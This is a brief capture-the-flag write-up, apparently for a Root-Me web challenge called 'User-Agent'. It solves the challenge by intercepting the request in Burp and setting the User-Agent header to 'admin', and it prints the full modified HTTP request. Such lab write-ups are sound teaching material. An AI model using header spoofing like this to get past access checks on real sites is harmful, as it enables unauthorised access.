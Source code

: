 # Question
User-Agent

## Description
The admin is really dumb

## Solution

This one was really simple, we have to verify as admin user so just intercept the burp request and change user to admin which gives the flag
`
GET /web-serveur/ch2/ HTTP/1.1
Host: challenge01.root-me.org
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: _ga=GA1.1.1448696352.1759118406; _ga_SRYSKX09J7=GS2.1.s1759121098$o2$g1$t1759122883$j20$l0$h0
Connection: keep-alive
`
